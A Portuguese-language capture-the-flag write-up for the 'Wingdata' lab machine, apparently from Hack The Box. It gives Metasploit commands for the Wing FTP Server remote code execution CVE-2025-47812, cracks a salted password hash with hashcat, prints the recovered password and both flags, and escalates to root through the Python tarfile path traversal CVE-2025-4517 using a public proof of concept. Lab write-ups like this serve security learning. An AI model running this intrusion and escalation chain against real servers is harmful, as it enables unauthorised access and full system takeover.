





1# Wingdata

Começando pelo nmap no IP fornecido, temos 2 portas, 22 para SSH e uma 80 http.

Ao entrar no servidor web pelo navegador, existe uma pagina para uma startup de transferencias de arquivos online.
Tambem existe um botão para o portal do cliente, que contem um formulário de login, o qual é desenvolvido pela "Wing FTP server 7.4.3"

Ao pesquisar vulnerabilidades que afetam essa versão do software, é facil chegar na CVE-2025-47812, uma vuln de execução de código remoto, que por sorte possui um módulo no metasploit.

\$ msfconcole

\>use exploit/multi/http/wingftp_null_byte_rce
\>set vhost ftp.wingdata.htb
\>set rhost 10.129.244.106
\>set lhost 10.10.15.49
\>exploit

Com isso, é possivel chegar no meterpreter.

\>shell
\>script /dev/null -c /bin/bash

Percebemos que a shell foi aberta como o usuário wingftp.

analisando o arquivo /etc/passwd, percebemos que existe outro usuário chamado wacky, que possui /bin/bash como shell padrão.

Em seguida, enumeramos os arquivos do servidor Wing FTP. Dentro do diretório wftpserver/Data/1/users encontramos diversos arquivos XML de configuração, incluindo um pertencente ao usuário wacky.

Ao abrir o arquivo wacky.xml, percebemos que existe um hash de senha armazenado no campo Password: 32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca
De acordo com a documentação do Wing FTP, as senhas são armazenadas utilizando SHA-256 com o salt fixo WingFTP, usando o formato: sha256($senha.WingFTP).

Com isso podemos montar a hash no formato esperado e usar o hashcat com a wordlist rockyou para encontrar a senha. A senha encontrada foi: !#7Blushing^*Bride5

Novamente é possivel usar essa senha para o user wacky no SSH, e com isso, conseguir a flag de user: 1219737f39a4847063b027aee68e8a9a

Agora, para conseguir a flag de root, verificamos quais comandos o usuário wacky pode executar utilizando sudo (sudo -l).
Com isso, descobri que é possível executar o script /opt/backup_clients/restore_backup_clients.py como root sem necessidade de senha.

Analisando o código do script, percebemos que ele recebe como parâmetros o nome de um arquivo de backup e o diretório onde ele será restaurado. Apesar de ambos os parâmetros serem validados por expressões regulares, o script utiliza a função tar.extractall() para extrair o conteúdo do backup. Alem diso a versão do python era a 3.12.3.

Ao pesquisar, novamente, por vulnerabilidades dessa versão, encontramos a CVE-2025-4517, uma vulnerabilidade presente na biblioteca tarfile do Python. Essa falha permite realizar um path traversal durante a extração de arquivos .tar.

Como o script é executado como root e sou eu que forneço o arquivo de backup, é possivel explorar essa vulnerabilidade para escrever arquivos em qualquer lugar do sistema.

Utilizando um exploit público para essa CVE (https://github.com/AzureADTrent/CVE-2025-4517-POC) foi possivel spawnar uma shell com root. Conseguindo a segunda flag: fc50985eb024e2b450c34700f5788802

